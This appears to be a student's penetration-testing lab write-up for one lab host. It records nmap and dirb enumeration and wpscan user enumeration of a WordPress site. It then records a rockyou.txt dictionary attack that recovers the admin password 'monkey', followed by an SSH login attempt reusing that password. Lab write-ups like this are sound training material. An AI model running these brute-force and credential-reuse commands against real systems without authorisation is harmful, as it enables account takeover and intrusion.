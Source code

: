 Enumeration

# NMAP
## TCP Ports
### sudo nmap -Pn -p- 10.11.1.251
![e02386bfbd732d559460632148bd4802.png](../../../_resources/2e5f9db642e94d6aaf4fe735089e45fc.png)

### sudo nmap -Pn -A -p- 10.11.1.251
![5d68b4cd71fc9b15014b6380bd62033c.png](../../../_resources/f8c85169b5184eb79070dafff1954d80.png)

## UDP Ports
Did not scan

# dirb
Non-recursive scan:
### dirb http://10.11.1.251 -r
![9a7bc1c91d012c7a3730308e9e2c630a.png](../../../_resources/77a3982497f84987b501af1fc9f1eee5.png)

Recursive scan for Wordpress site
### dirb http://10.11.1.251/wp
![cfbfcbab50f3294339e4ca1a71011ca8.png](../../../_resources/a1529377ca9d4508920f290eab1a88c4.png)

# WPScan
Enumerate usernames. There is one username: admin
### wpscan --url http://10.11.1.251/wp --enumerate u
![acee3a14a95b8474852aac3a7de90e98.png](../../../_resources/9b05d183258844faa0be02043a9e8990.png)

Dictionary password attack on username: admin using rockyou.txt
### wpscan --url http://10.11.1.251/wp -U admin -P /usr/share/wordlists/rockyou.txt
![f7d4e444a6b28fc74f1501471545109d.png](../../../_resources/e5ccbad6f0604df2811eac1a817b9698.png)

Check that the login admin:monkey works
![01803855057a540f211f94ed634a8db7.png](../../../_resources/d403119ca8da4f659fb733f20c833e6f.png)

# SSH
Attempt to login with credentials sean:monkey
![cee31872b5317dc394a94f63773dd2ab.png](../../../_resources/84ca31526b75481390b923b268682c18.png)






